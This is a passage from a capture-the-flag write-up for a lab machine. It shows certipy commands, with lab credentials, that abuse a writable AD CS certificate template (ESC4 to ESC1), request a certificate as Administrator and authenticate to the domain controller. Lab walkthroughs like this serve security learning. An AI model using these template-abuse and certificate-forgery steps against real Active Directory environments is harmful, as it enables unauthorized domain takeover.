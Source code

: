 This will make the certificate vulnerable to `ESC1`


### Exploiting `ESC4`

Luckily for us, certipy does all the hard work for us (yes, this is not opsec safe, we don't care)

```bash
certipy template -u 'ca_svc@sequel.local' -p 'newP@ssword2022' -template DunderMifflinAuthentication -save-old -dc-ip 10.10.11.51
```

Querying again the certificates will show that now the same template is vulnerable to `ESC1`

```
certipy find -u 'ca_svc' -p 'newP@ssword2022' -dc-ip 10.10.11.51 -stdout -vulnerable
```

![](/assets/EscapeTwo/EscapeTwo-ESC1.png)

We can now request a certificate as the Administrator user

```bash
certipy req -u 'rose' -p 'KxEPkKe6R8su' -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn Administrator -dc-ip 10.10.11.51
```

And then use such certificate to authenticate to the DC.

```bash
certipy auth -pfx administrator.pfx -username Administrator -domain sequel.htb
```
